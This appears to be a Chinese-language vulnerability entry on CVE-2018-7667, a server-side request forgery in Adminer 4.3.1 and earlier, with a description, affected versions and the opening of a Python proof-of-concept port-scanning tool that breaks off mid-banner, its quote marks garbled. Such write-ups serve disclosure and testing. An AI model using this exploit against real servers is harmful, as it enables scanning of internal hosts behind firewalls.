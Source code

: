 ```yaml
---
title: "（CVE-2018-7667）Adminer服务器端请求伪造漏洞"
id: zhfly2804
---
```


# （CVE-2018-7667）Adminer 服务器端请求伪造漏洞

## 一、漏洞简介

Adminer 4.3.1及之前版本存在服务器端请求伪造漏洞。攻击者可借助‘server’参数利用该漏洞绕过防火墙，确定内部主机，扫描其他服务器的端口。

## 二、漏洞影响

Adminer<=4.3.1

## 三、复现过程

### poc

```
import socket,re,ssl,warnings,subprocess,time
from platform import system as system_name 
from os import system as system_call

#Adminer Server Side Request Forgery

#PortMiner Scanner Tool

#by John Page (hyp3rlinx)

#ISR: ApparitionSec

#[hyp3rlinx.altervista.org](http://hyp3rlinx.altervista.org)

#=========================

#D1rty0Tis says hi.

#timeout

MAX_TIME=32

#ports to log

port_lst=[]

#Web server response often times out but usually means ports open.

false_pos_ports=[‘80’,‘443’]

BANNER=’’’

____            _   __  __ _

|  _  \         | | |  /  (*)

| |**) |**  _ __| |*| \  / |_ _ __   ___ _ __

|  ***/ _ | '**| **| |/| | | ’* \ / _ \ '**|

```
